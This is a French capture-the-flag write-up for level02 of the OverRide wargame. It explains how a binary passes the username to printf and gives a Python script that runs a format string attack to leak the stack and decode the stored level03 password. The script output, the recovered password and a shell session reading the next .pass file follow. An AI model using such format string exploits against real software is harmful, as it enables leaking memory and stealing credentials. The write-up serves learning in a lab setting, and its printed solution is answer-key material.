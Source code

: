# LEVEL 02

Le binaire level02 ne contien qu'une fonction **main**.

Cette fonction appelle **open** de **"/home/users/level03/.pass"** suivi d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous restreint dans notre utilisation de GDB car le open ne fonctionnera pas avec nos droits, mais on sait que le **pass** est stocké quelque-part dans la **stack**.

Le programme lit 2 fois sur l'entrée standard via **fgets**.

La premiere string **login** est passée en premier argument à la fonction **printf**.

La deuxième string **passwd** est comparée au fichier **level03/.pass** et si la comparaison réussie le programme lance un **shell**.

On cherche donc a exploiter le **printf** pour afficher la stack et potentiellement trouver notre **pass**. Pour cela, on utilise le script ci-dessous pour réaliser une **format string attack** avec notre **login**:

```python
import os
import re

os.system("rm /tmp/output")
for i in range(45):
        os.system("echo '%{}$08p\ntata' | ~/level02 | grep access! >> /tmp/output".format(i))
        i +=1
f = open("/tmp/output", "r")
output = ""
for x in f:
        if x.startswith("0x"):
                tmp = re.search('(?<=x)[0-9a-f]+', x).group(0)
                output += tmp + "\n"
f.close()
strings = ""

for line in output.split("\n"):
        print(line)
        if len(line) == 16:
                decoded_line = line.decode("hex")
                #Reverting the string because it was in little indian
                decoded_line = decoded_line[::-1]
                print("decoding hexa value : ", decoded_line)
                strings += decoded_line


print("Decoded Strings = ", strings)
f = open("/tmp/decoded", "w")
f.write(strings + "\n")
```

On exécute notre script dans `/tmp` :

```bash
level02@OverRide:/tmp$ python script.py
7fffffffe4e0
000074
2a2a2a2a2a2a2a2a
('decoding hexa value : ', '********')
2a2a2a2a2a2a2a2a
('decoding hexa value : ', '********')
7fffffffe6d8
1f7ff9a08
61746174
100000000
756e505234376848
('decoding hexa value : ', 'Hh74RPnu')
45414a3561733951
('decoding hexa value : ', 'Q9sa5JAE')
377a7143574e6758
('decoding hexa value : ', 'XgNWCqz7')
354a35686e475873
('decoding hexa value : ', 'sXGnh5J5')
48336750664b394d
('decoding hexa value : ', 'M9KfPg3H')
70383024383225
2900000000
602010
7ffff7a3d7ed

('Decoded Strings = ', '****************Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H')
```

Et on obtien le **pass** : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: titi
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, titi!

$ cd ../level03 && cat .pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

